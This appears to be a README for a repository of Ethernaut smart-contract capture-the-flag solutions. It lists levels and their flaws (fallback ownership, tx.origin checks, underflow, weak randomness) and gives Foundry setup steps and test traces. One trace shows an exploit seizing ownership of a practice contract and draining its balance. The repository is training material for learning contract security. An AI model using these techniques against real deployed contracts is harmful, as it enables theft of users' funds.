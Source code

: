 # 🔐 Ethernaut CTFs challenges and solutions
Inspired by [ethernaut-x-foundry](https://github.com/ciaranmcveigh5/ethernaut-x-foundry)

## 🛡 Challenges

| N° | Name | Challenge | Solution | Topic |
| -- | ---- | --------- | -------- | ----- |
| 01 | Fallback | [link](https://ethernaut.openzeppelin.com/level/0x6F9cf195B9B4c1259E8FCe5b4e30F7142f779DeA) | [link](https://github.com/leovct/ethernaut/blob/main/test/FallbackExploit.t.sol#L27) | Fallback function |
| 02 | Fallout | [link](https://ethernaut.openzeppelin.com/level/0x40F5513a90fb7e2ac2C3E12A6d16B9279D1e94Ed) | [link](https://github.com/leovct/ethernaut/blob/main/test/FalloutExploit.t.sol#L27) | Typo |
| 03 | CoinFlip | [link](https://ethernaut.openzeppelin.com/level/0xae9677ff69efB3C1B9559C8F2A9ED6a2212148e3) | [link](https://github.com/leovct/ethernaut/blob/main/test/CoinFlipExploit.t.sol#L31) | Pseudo-randomness using block.number and block.timestamp |
| 04 | Telephone | [link](https://ethernaut.openzeppelin.com/level/0x466BDd41a04473A01031C9D80f61A9487C7ef488) | [link](https://github.com/leovct/ethernaut/blob/main/test/TelephoneExploit.t.sol#L34) | Authentication using tx.origin instead of msg.sender |
| 05 | Token | [link](https://ethernaut.openzeppelin.com/level/0xDc0c34CFE029b190Fc4A6eD5219BF809F04E57A3) | [link](https://github.com/leovct/ethernaut/blob/main/test/TokenExploit.t.sol#L31) | Arithmetic underflow / owerflow |
| ... | ... |
| 21 | Good Samaritan |

## 📌 Set up the project
- Install [Foundry](https://github.com/foundry-rs/foundry#installation)
- Create a new project: `$ forge init`
- Install libraries:
    - Ethernaut challenges: `$ forge install openzeppelin/ethernaut`
    - OpenZeppelin standard contracts: `$ forge install openzeppelin/openzeppelin-contracts@release-v3.4`
- Edit `foundry.toml` and fill in the correct remappings
```toml
[profile.default]
src = 'src'
out = 'out'
libs = ['lib']
remappings = [
    'forge-std/=lib/forge-std/src/',
    'ethernaut/=lib/ethernaut/contracts/',
    '@openzeppelin/=lib/openzeppelin-contracts/',
]
# See more config options https://github.com/foundry-rs/foundry/tree/master/config
```

## 🧪 Run the exploits

### 1. Run a specific test
```sh
$ forge test --match-contract FallbackExploit -vvvv
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Logs:
  Fallback contract owner: 0x185a4dc360ce69bdccee33b3784b0282f7961aea
  New Fallback contract owner: 0x0000000000000000000000000000000000000539
  Exploiter address: 0x0000000000000000000000000000000000000539
  Fallback contract balance: 2
  New Fallback contract balance: 0

Traces:
  [788447] FallbackExploit::testExploit() 
    ├─ [396946] → new FallbackFactory@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: FallbackExploit: [0xb4c79daB8f259C7Aee6E5b2Aa729821864227e84])
    │   └─ ← 1864 bytes of code
    ├─ [24632] Ethernaut::registerLevel(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000539) 
    │   └─ ← ()
    ├─ [257980] Ethernaut::createLevelInstance(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   ├─ [211011] FallbackFactory::createInstance(0x0000000000000000000000000000000000000539) 
    │   │   ├─ [178499] → new Fallback@0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067
    │   │   │   └─ ← 670 bytes of code
    │   │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    │   ├─ emit LevelInstanceCreatedLog(player: 0x0000000000000000000000000000000000000539, instance: Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067])
    │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    ├─ [22687] Fallback::contribute{value: 1}() 
    │   └─ ← ()
    ├─ [427] Fallback::contributions(0x0000000000000000000000000000000000000539) [staticcall]
    │   └─ ← 1
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]
    ├─ emit log_named_address(key: Fallback contract owner, val: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    ├─ [514] Fallback::fallback{value: 1}() 
    │   └─ ← ()
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ emit log_named_address(key: New Fallback contract owner, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_address(key: Exploiter address, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_uint(key: Fallback contract balance, val: 2)
    ├─ [7277] Fallback::withdraw() 
    │   ├─ [0] 0x0000000000000000000000000000000000000539::fallback{value: 2}() 
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_named_uint(key: New Fallback contract balance, val: 0)
    ├─ [4273] Ethernaut::submitLevelInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]) 
    │   ├─ [1279] FallbackFactory::validateInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067], 0x0000000000000000000000000000000000000539) 
    │   │   ├─ [359] Fallback::owner() [staticcall]
    │   │   │   └─ ← 0x0000000000000000000000000000000000000539
    │   │   └─ ← true
    │   ├─ emit LevelCompletedLog(player: 0x0000000000000000000000000000000000000539, level: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    │   └─ ← true
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 424.83µs
```

### 2. Run all the tests
```sh
$ forge test
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Test result: ok. 1 passed; 0 failed; finished in 401.67µs

Running 1 test for test/FalloutExploit.sol:FalloutExploit
[PASS] testExploit() (gas: 767402)
Test result: ok. 1 passed; 0 failed; finished in 400.21µs
```

## Lint the files using [Solhint](https://github.com/protofire/solhint)
`$ solhint 'src/*.sol' 'test/*.t.sol'`
